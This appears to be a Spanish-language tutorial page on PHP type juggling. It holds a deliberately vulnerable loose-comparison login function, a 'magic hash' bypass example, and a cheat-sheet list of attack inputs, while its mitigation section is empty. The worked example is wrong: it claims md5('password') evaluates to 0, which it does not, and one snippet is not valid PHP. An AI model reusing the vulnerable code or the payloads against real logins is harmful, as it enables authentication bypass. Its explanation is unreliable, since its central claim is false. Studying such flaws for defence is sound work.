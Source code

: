 ### ¿Qué es Type Juggling?
En PHP, hay distintos tipos de variables, tales como: `strings`, `integers`, `floats`, `booleans`, `arrays`, `objects`, `resources` y `NULL`. Cada tipo significa una clase distinta de información. PHP permite el *Type Juggling*, es decir, el tipo de una variable puede cambiar si se necesita. Por ejemplo, puede ser que una variable inicializada como `string` de valor `10` cambie a `integer` si es necesario u oportuno.
##### Tipos de comparadores
En lo que se refiere a comparar variables, en PHP hay dos tipos de comparadores, *Loose* (`==`) y *Strict* (`===`). El comparador estricto comprueba si el valor y el tipo coinciden, por ejemplo
```PHP
$valor = 10
$valor === int // Aquí el output sería TRUE
```
En cambio, el comparador "laxo" utilizará type juggling para comparar únicamente los valores, y no los tipos.
```PHP
$valor1 = 10
$valor2 = "10"
$valor1 == $valor2 // Esto sería TRUE, a pesar de valor1 ser un entero y valor2 un string.
```
### ¿Qué es TJA?
Cuando un atacante puede manipular el valor de una variable que se está comparando con loose, se puede manipular la aplicación para que de resultados `TRUE` o `FALSE` de forma inesperada, provocando errores de autorización y autenticación graves.
```PHP
<?php
function login($username, $password, $users) {
    if (isset($users[$username])) {
        return md5($password) == $users[$username];
    }
    return false;
}
```
En este caso, si el atacante tiene control sobre el campo de `$password` y `$username`, este podría cargar payloads maliciosos en notación científica, que PHP interpreta como 0, y que la comparación sea TRUE ya que está comparando `0==0`, que en cualquier caso, aún uno de los dos siendo un string, será verdadero, bypasseando efectivamente el panel de login.
```PHP
<?php
// Base de datos simulada
$users = [
    'admin' => '5f4dcc3b5aa765d61d8327deb882cf99' // md5('password')
];

// Ataque exitoso - el atacante controla estos valores
$username = 'admin';
$password = '240610708'; // Magic hash

// El ataque funciona
$result = login($username, $password, $users);
// Devuelve TRUE porque:
// md5('240610708') = "0e462097431906509019562988736854" → 0
// md5('password')  = "5f4dcc3b5aa765d61d8327deb882cf99" → 0
// 0 == 0 → TRUE
?>
```
### Mitigación y prevención
### Cheats
```
0
00
000000
0e123456
0e000000000000000000000000000000
0e000000000000000000000000000000000000000000000000000000000000
0x0
0x123
0xdeadbeef
0e1+
0.0
0||1
0+0
240610708
505144726
48291204
315655854
809793630
71437579
115528287
10000676
10000188
10000240
10000181
13181623570
62241955574
20583002034
QNKCDZO
aabg7XSs
10932435112
0e462097431906509019562988736854
0e830400451993494058024219903391
0e087386482136013740957780965295
0e07766915004133176347055865026311692244
s878926199a
s155964671a
s214587387a
s1091221200a
s1665632922a
s1502113478a
s1975215894a
true
false
null
TRUE
FALSE
NULL
on
off
yes
no
"0"
"0e1"
"0x1"
"0b1"
"000000"
"0xdeadbeef"
"0e000000000000000000000000000000"
"0x0"
"0.0"
"0 "
" 0"
0||1
1||0
0&&1
1&&0
0==1
1==0
0!=1
1!=0
0x1a2b3c
0xabcdef
0o755
0b101010
0x000000
0xffffffff
0e1abcdef
0x1.2p3
```
### Fuentes
[Knowledge base](https://knowledge-base.secureflag.com/vulnerabilities/inadequate_input_validation/type_juggling_vulnerability.html)
[PATT](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling)
[SecOps](https://secops.group/php-type-juggling-simplified/)
